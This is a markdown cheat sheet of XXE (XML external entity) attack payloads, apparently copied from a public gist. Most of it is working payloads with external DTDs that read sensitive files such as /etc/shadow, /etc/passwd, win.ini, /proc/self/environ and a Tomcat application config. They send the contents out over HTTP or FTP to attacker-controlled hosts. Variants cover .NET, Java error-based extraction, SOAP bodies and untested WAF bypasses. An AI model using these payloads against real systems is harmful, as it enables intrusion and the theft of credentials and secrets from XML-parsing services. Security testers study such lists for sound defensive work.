 # XXE Cheatsheet

From:<https://gist.githubusercontent.com/staaldraad/01415b990939494879b4/raw/25cff41582552aee47b06526d568f5785af67deb/XXE_payloads> 

## Vanilla, used to verify outbound xxe or blind xxe

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>
```

## OoB extraction

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

External dtd:

```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```

## OoB variation of above (seems to work better against .NET)

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```

External dtd:

```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```

## OoB extraction

```
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>
```

External dtd:

```
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://Evilhost:port/%data3;'>">
```

## OoB extra ERROR -- Java

```
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
```

External dtd:

```
<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;
```

## OoB extra nice

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
```

External dtd:

```
<!ENTITY all "%start;%stuff;%end;">
```

## File-not-found exception based extraction

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>
```

External dtd:

```
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">
```

* You might need to encode this % (depends on your target) as: `&#x25;`

## FTP

```
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
```

External dtd:

```
<!ENTITY % d SYSTEM "file:///proc/self/environ">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>">
```

## Inside SOAP body

```
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

## Untested - WAF Bypass

```
<!DOCTYPE :. SYTEM "http://"
<!DOCTYPE :_-_: SYTEM "http://"
<!DOCTYPE {0xdfbf} SYSTEM "http://"
```
